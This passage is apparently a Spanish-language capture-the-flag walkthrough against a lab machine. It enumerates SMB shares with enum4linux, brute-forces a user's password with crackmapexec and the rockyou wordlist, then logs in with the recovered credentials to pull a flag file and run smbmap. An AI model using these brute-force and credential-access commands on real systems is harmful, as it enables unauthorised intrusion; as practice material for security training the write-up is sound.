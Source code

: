 ## Enumeracion De [Servicio SMB]
Realizamos una enumeracion con esta herramiente: **( enum4linux )** para detectar posibles fallas o recursos compartidos:
```bash
enum4linux -S 172.17.0.2
```

Reporte:
```bash
 Sharename       Type      Comment
 ---------       ----      -------
 print$          Disk      Printer Drivers
 macarena        Disk      
 IPC$            IPC       IPC Service (81103d670a14 server (Samba, Ubuntu))

[+] Attempting to map shares on 172.17.0.2

//172.17.0.2/print$     Mapping: DENIED Listing: N/A Writing: N/A
//172.17.0.2/macarena   Mapping: DENIED Listing: N/A Writing: N/A

[E] Cant understand response:

NT_STATUS_CONNECTION_REFUSED listing
//172.17.0.2/IPC$       Mapping: N/A Listing: N/A Writing: N/A
```

Realizaremos un ataque de fuerza bruta para determinar la password del usuario macarena asi podremos ver su contenido si tenemos exito:
Usaremos como diccionario a los dos usuarios previamente antes descubierto:
```bash
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
```

Como resultado obtenemos las credenciales de acceso del usuario **( Macarena )**:
```bash
SMB         172.17.0.2      445    81103D670A14     [+] 81103D670A14\macarena:donald
```

Procedemos a conectarnos con este usuario por **SMB**
```bash
smbclient //172.17.0.2/macarena -U macarena%donald
```

Listando los archivos de este servicio tenemos un: **( user.txt )** el cual descargamos:
```bash
get user.txt
```

Revisando su contenido tenemos una cadena en **MD5**, Usando herramientas only no tuvimos suerte al intentar decodificar:
```bash
ef65ad731de0ebabcb371fa3ad4972f1
```

Ahora con **( smbmap )** enumeramos ya con estas credenciales para ver si tenemos nuevos resultados.
```bash
smbmap -H 172.17.0.2 -u 'macarena' -p 'donald'
```
